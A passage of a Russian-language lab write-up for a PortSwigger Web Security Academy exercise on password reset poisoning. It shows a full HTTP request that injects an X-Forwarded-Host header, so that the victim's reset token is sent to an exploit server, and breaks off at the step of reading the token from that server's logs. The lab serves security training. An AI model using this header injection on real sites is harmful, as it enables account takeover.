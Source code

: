 Зачем это нужно? Заголовок `X-Forwarded-Host` указывает, что оригинальный запрос был отправлен не от `Host`, а от хоста, который указан в этом заголовке. Для этой лабы мы получили письмо на восстановление пароля, которое указывает на эксплойт сервер. Теперь, если нажать на эту ссылку, то на сервер придет `GET`-запрос с токеном для сброса пароля. А его можно уже использовать, чтобы сбросить пароль.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_authentication/IMG_Password_reset_poisoning_via_middleware/3.png){: height="200" .align-center}

Итак, что нужно сделать:
1. Отправить заявку на сброс пароля для пользователя `carlos` с заголовком `X-Forwarded-Host`:

```http
POST /forgot-password HTTP/2
Host: 0ad6006c036f335d80bd12c1003500dd.web-security-academy.net
Cookie: session=9AUyI5SFoyAibYfN1uEZ33qBzWoBMd4Q
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:142.0) Gecko/20100101 Firefox/142.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0ad6006c036f335d80bd12c1003500dd.web-security-academy.net/forgot-password
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
Origin: https://0ad6006c036f335d80bd12c1003500dd.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
X-Forwarded-Host: exploit-0a06006703a2337280a5112f01d700f6.exploit-server.net

username=carlos
```
2. Вытащить токен из логов сервера:
